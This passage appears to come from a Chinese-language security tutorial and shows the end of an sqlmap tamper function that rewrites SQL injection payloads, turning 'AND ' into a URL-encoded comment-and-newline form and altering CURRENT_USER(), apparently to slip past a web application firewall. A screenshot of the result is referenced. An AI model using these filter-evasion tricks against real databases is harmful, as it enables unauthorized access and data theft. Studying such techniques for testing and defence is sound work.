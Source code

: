 ```text
    for i in data.keys():
        retVal = retVal.replace(i, data[i])

    retVal = retVal.replace("CURRENT_USER()", "CURRENT_USER" + sign + "()") # 为了sqlmap执行 "--current-user"
    retVal = retVal.replace("AND ","AND%23%0a ") # 为了sqlmap执行 "--dump"
    return retVal

```

测试效果：

![](../../.gitbook/assets/image%20%2830%29.png)

